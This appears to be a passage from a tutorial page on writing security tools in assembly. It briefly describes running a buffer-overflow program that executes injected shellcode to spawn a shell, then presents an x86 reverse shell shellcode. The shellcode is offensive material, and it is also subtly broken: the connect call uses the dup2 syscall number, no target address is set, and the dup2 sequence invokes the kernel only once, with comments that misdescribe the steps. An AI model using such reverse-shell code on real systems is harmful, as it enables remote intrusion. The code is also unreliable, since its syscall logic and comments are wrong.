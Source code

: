 After compiling and linking, you can run the program:

```bash
./stack_overflow
```

The program will display the welcome message and then execute the injected shellcode, spawning a shell. If a buffer overflow attempt is detected (stack canary modified), the program will exit with an error message.

Creating cybersecurity tools in assembly language can be quite challenging due to its low-level nature and complexity. However, it's not impossible, and certain types of tools, such as simple shellcodes or exploits, can be written in assembly to achieve specific tasks efficiently and with minimal overhead. Here's a basic example of a reverse shell shellcode written in x86 assembly:

```assembly
section .text
    global _start

_start:
    ; Socket syscall (socket(AF_INET, SOCK_STREAM, 0))
    xor eax, eax            ; Clear eax register
    push eax                ; Push 0 (protocol) onto the stack
    push byte 0x1           ; Push 1 (SOCK_STREAM) onto the stack
    push byte 0x2           ; Push 2 (AF_INET) onto the stack
    mov al, 0x66            ; Socket syscall number
    mov ebx, esp            ; Move stack pointer to ebx (pointer to arguments)
    int 0x80                ; Call kernel

    ; Connect syscall (connect(sockfd, *addr, addrlen))
    mov ecx, esp            ; Move stack pointer to ecx (pointer to sockaddr_in structure)
    mov al, 0x66            ; Connect syscall number
    push byte 0x10          ; Push sockaddr_in structure size onto the stack
    push ecx                ; Push pointer to sockaddr_in structure onto the stack
    push ebx                ; Push sockfd onto the stack
    mov ecx, esp            ; Move stack pointer to ecx (pointer to arguments)
    mov al, 0x3f            ; Connect syscall number
    int 0x80                ; Call kernel

    ; Dup2 syscall (dup2(sockfd, 0); dup2(sockfd, 1); dup2(sockfd, 2))
    mov al, 0x3f            ; Dup2 syscall number
    xor ebx, ebx            ; Clear ebx register (file descriptor 0)
    mov al, 0x3f            ; Dup2 syscall number
    inc ebx                 ; Increment ebx (file descriptor 1)
    mov al, 0x3f            ; Dup2 syscall number
    inc ebx                 ; Increment ebx (file descriptor 2)
    int 0x80                ; Call kernel

    ; Execve syscall (/bin/sh)
    xor eax, eax            ; Clear eax register
    push eax                ; Push null byte onto the stack
    push 0x68732f2f         ; Push "//sh" onto the stack
    push 0x6e69622f         ; Push "/bin" onto the stack
    mov ebx, esp            ; Move stack pointer to ebx (pointer to "/bin//sh")
    mov ecx, eax            ; Null out ecx
    mov edx, eax            ; Null out edx
    mov al, 0xb             ; syscall number for execve
    int 0x80                ; Call kernel
```
